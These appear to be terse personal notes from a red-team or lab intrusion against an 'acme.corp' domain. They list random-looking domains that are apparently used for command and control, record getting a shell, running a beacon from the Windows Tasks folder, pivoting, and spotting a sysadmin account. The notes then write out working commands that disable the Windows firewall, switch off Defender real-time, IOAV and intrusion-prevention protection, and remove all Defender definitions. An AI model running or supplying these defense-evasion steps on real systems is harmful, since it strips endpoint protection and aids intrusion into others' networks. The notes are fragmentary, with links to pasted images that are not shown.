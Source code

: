 domains 
- qrictgydszhlhw.info
- nbqtddutqn.org
- znkfchsslimnfp.info
- bforgbdaurgjettxago.com

got shell after doing all the prep

run beacon from c"\windows\tasks

exe would on

![[Pasted image 20240426084508.png]]
 looks to be possible service

![[Pasted image 20240426115051.png]]
acne.corp 

![[Pasted image 20240426115211.png]]


pivoted through host on pivot listener

cotton is a sysadmin on domain

can access web.acme.corp
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False

powerpick Set-MPPreference -DisableRealTimeMonitoring $true -Verbose; Set-MPPreference -DisableIOAVProtection $true -Verbose; Set-MPPreference -DisableIntrusionPreventionSystem $true -Verbose

remove all defnitions "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All